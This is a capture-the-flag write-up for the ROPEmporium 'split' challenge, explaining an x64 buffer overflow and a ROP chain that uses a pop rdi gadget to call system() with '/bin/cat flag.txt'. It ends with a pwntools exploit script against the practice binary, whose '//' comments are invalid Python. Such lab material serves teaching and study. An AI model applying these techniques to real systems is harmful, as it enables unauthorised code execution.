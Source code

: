 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "list"
title: "ROPEmporium: split"
---
```

## Preface
'split' focuses on basic ROP, utilizing gadgets to populate registers in order to call a function in x64 with function parameters.

Challenges can be found [here](https://ropemporium.com/).
### File Information
Running the file, we are met with the following:

![Initial Run]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/split/initialrun.png)

Note that the buffer overflow still exists (offset is the same), allowing us to overwrite the return address. However, this time around the handy function that prints the flag for us is gone.

Our checksec remains the same.

![Checksec]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/split/checksec.png)
### Decompilation
Instead of the previous `ret2win()`, we are given a function that calls `system("/bin/ls")`. By itself, this wouldn't be useful, but since the call to `system()` exists, we can replace our return address with this call and instead pass our own arguments to it.

```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```
### Finding Gadgets and Strings
Note that the problem description tells us this:
>I'll let you in on a secret: that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.

We can verify that this is true by checking the offset of this string using the built-in pwndbg `search` function. We'll break at `main()` and search for our value.

![Search]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/split/search.png)

Now we have the exact address of this string, we can find the gadgets necessary to load our registers so that we can call `system()` with this value.

To do this, we'll use ROPgadget. A quick reminder that the x64 calling convention is as follows:

`RDI, RSI, RDX, RCX, R8 and R9`

Since we only have one argument (`"/bin/cat flag.txt"`), we just need a gadget to load the RDI register with this value for us. ROPgadget is easily able to find the address of this for us.

![Pop RDI]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/split/poprdi.png)

Luckily, this gadget doesn't have any other registers involved, so all we have to do is add the address of our string to build our chain.
### Finding Offset of system()
To find the offset of system, we'll use GDB to check the exact address of the function call.

![System Offset]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/split/systemoffset.png)

Perfect, now we can build our ROP chain!
### Building ROP chain
A quick recap:
We need to first call our `POP_RDI` gadget with the address of our cat string. Then, we need to call system directly with our register already set, and we're done.

Looks like this time around, we don't need an extra ret since our stack is luckily already aligned. Note that if your exploit is segfaulting, try checking what instruction you break on. If it's MOVAPS, try adding a ret.

![Win]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/split/win.png)
### Final Script
```python
from pwn import *

p = process('./split')

CAT_FLAG = 0x601060
POP_RDI = 0x00000000004007c3
SYSTEM = 0x40074b
payload = b'A'*40
payload += p64(POP_RDI) // loading our register
payload += p64(CAT_FLAG) // fed into POP_RDI
payload += p64(SYSTEM)
p.sendline(payload)
p.interactive()
```
